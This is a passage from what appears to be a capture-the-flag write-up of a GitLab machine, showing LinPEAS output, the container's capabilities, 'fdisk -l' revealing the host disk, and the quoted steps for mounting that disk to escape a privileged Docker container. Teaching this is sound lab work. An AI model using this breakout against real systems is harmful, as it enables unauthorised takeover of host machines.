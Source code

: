 Then we remember we're inside a docker container. So we'll need to escape that to get to the underlying filesystem. Luckily LinPEAS has got a handy link for us in it's output:

```text
[+] Looking for docker breakout techniques
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37+i
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_ownercap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=998(git)
gid=998(git)
groups=998(git)
```

Reading the information on hacktricks it says:

```text
Well configured docker containers won't allow command like fdisk -l. 
However on missconfigured docker command where the flag --privileged is specified, 
it is possible to get the privileges to see the host drive.
```

Let's try that:

```text
root@gitlab:/var/opt/gitlab/gitlab-rails/working# fdisk -l
Disk /dev/sda: 20 GiB, 21474836480 bytes, 41943040 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: gpt
Disk identifier: 32558524-85A4-4072-AA28-FA341BE86C2E

Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

Ok, well we can see the filesystem so this is looking good. Next it says:

```text
So to take over the host machine, it is trivial:
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
And voilà ! You can now acces the filesystem of the host because it is mounted in the /mnt/hola folder.
```

